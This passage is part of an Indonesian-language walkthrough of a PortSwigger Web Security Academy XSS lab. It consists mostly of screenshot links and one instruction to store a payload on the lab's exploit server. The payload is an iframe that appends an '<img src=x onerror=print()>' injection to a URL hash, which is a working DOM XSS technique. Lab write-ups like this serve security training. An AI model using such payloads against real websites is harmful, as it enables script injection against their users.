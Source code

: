 ![alt text](https://github.com/rahardian-dwi-saputra/portswigger-labs/blob/main/XSS/APPRENTICE/assets/xss%2039.JPG)

- Buka Exploit Server

![alt text](https://github.com/rahardian-dwi-saputra/portswigger-labs/blob/main/XSS/APPRENTICE/assets/xss%2040.JPG)

- Pada bagian Body masukkan payload sebagai berikut kemudian klik tombol **Store**
```sh
<iframe src="https://lab_id.web-security-academy.net/#abc" onload="this.src=this.src+'<img src=x onerror=print()>'"></iframe>
```

![alt text](https://github.com/rahardian-dwi-saputra/portswigger-labs/blob/main/XSS/APPRENTICE/assets/xss%2041.JPG)
